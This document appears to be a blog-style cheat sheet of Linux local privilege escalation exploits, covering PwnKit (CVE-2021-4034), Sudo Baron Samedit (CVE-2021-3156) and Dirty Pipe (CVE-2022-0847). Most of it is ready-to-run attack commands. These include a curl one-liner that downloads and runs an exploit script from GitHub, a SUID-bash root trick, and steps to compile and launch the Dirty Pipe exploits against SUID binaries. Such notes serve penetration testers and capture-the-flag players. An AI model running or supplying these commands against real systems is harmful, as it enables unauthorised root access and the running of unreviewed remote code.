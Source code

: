 ```yaml
---
title: Linux LPE
author: asphixie
date: 2023-03-10 20:55:00 +0800
categories: [Linux]
pin: true
comments: false
---
```


## CVE-2021-4034 : Polkit privilege escalation exploit

Many PoCs on internet. This one can be used easily, downloading it on Internet : 
```bash
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```
{: .nolineno }
More information on : https://github.com/ly4k/PwnKit

## CVE-2021-3156 : Sudo Baron Samedit exploit

Based on <https://github.com/redhawkeye/sudo-exploit>
Adding SUID to bash if you can control a binary/script launched by root :
```bash
chmod +s /bin/bash
/bin/bash -p
```
{: .nolineno }

## CVE-2022-0847 : Dirty Pipe

Based on <https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits>. Start with compile :
```bash
./compile.sh
```
{: .nolineno }
Then launch the exploit :
```bash
./exploit-1
```
{: .nolineno }
If doesn't works, try to find SUID binaries (sudo for example) :
```bash
find / -perm -4000 2>/dev/null
./exploit-2 /usr/bin/sudo
```
{: .nolineno }
